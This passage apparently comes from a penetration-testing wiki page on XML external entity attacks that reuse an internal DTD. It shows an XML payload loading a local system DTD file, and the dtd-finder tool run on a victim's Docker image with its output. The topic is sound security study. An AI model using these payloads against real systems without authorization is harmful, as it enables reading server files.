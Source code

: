![](../.gitbook/assets/image%20%2868%29.png)

As this technique uses an **internal DTD you need to find a valid one first**. You could do this **installing** the same **OS / Software** the server is using and **searching some default DTDs**, or **grabbing a list** of **default DTDs** inside systems and **check** if any of them exists:

```markup
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

### Finding DTDs inside the system

In the following awesome github repo you can find **paths of DTDs that can be present in the system**:

{% embed url="https://github.com/GoSecure/dtd-finder/tree/master/list" %}

Moreover, if you have the **Docker image of the victim system**, you can use the tool of the same repo to **scan** the **image** and **find** the path of **DTDs** present inside the system. Read the [Readme of the github](https://github.com/GoSecure/dtd-finder) to learn how.

```bash
java -jar dtd-finder-1.2-SNAPSHOT-all.jar /tmp/dadocker.tar

Scanning TAR file /tmp/dadocker.tar

 [=] Found a DTD: /tomcat/lib/jsp-api.jar!/jakarta/servlet/jsp/resources/jspxml.dtd
Testing 0 entities : []

 [=] Found a DTD: /tomcat/lib/servlet-api.jar!/jakarta/servlet/resources/XMLSchema.dtd
Testing 0 entities : []
```

